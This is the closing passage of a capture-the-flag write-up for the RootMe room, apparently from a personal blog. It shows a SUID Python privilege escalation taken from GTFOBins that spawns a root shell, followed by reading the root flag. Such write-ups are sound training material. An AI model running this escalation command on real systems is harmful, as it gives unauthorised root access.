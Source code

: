Taking a look to [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid) i found that we can spawn a shell via the `os` module.

```bash
www-data@rootme:/$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
```

Now we can see the root flag located in `/root/root.txt`

```bash
# cat root.txt
THM{p****l3g3_3sc****10n}
```

---
## Final Thoughts

The **RootMe CTF** provided a straightforward yet insightful experience, emphasizing basic web exploitation and privilege escalation. It’s a great challenge for beginners to solidify fundamental skills while building confidence for more advanced scenarios.

![Desktop View](RootmePwn.png)

-- -
**Thanks for reading, i’ll appreciate that you take a look to my other posts :)**

